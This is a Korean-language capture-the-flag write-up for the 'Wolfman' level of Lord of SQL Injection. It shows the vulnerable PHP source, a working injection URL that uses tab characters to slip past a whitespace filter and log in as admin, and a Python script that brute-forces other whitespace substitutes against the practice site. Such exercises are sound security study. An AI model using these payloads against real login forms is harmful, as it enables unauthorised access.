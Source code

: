 # Lord of SQL Injection No.5 Wolfman

Wolfman 문제는 공백(WhiteSpace)을 우회하고 `id`값을 충족하여 문제를 해결할 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

```php
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
```
`preg_match` 함수에서 정규표현식 매칭을 실행하는 중에 공백(Whitespace)을 만나면 `No whitespace ~_~`를 출력하고 문제 풀이에 실패하게 된다.

#### 문제 풀이 조건

`preg_match`에 필터링되지 않고 입력한 `id`값이 `admin`과 일치하면 문제 해결에 성공한다.

## Solution
```
http://los.eagle-jump.org/wolfman_***.php?pw=%27%09or%09id=%27admin%27%09%23
```

위에서 언급했듯이 소스코드에서 `preg_match`가 공백(Whitespace)을 필터링하고 있기 때문에 `Whitespace`를 대신하여 사용할 수 있는 공백 문자를 URL에 삽입하면 문제풀이에 성공하게 된다.

#### `Whitespace` 대신에 사용할 수 있는 문자

```python
import urllib.request
from urllib.parse import quote

result = ""
for i in range(0, 127):
    url = "http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='"
    add_url = "{0}or{0}id='admin'{0}#".format(chr(i))
    print("Searcing.. => {}".format(add_url))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent", "Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=4tgjrq03a101lqirm2povahog7")
    res = urllib.request.urlopen(re)

    if str(res.read()).find("WOLFMAN Clear!") != -1:
        result = result + "ASCII({})".format(hex(i)[2:]) + " "
        print("Found it!! => {} (ASCII - {})".format(chr(i),i))
print("Finished..")
print(result)
```

아스키코드에서 `Whitespace` 대신 사용할 수 있는 문자는 얼마나 있을까 호기심이 생겨 `Python`을 통해 코드를 짜보았다.

코드의 결과값으로 나온 대체 문자에는 5가지가 있었다.

* Tap (%09) // URL에서 사용된 대체 문자.
* Line Feed (%0A)
* Vertical Tab (%0B)
* Form Feed (%0C)
* Carriage Return (%0D)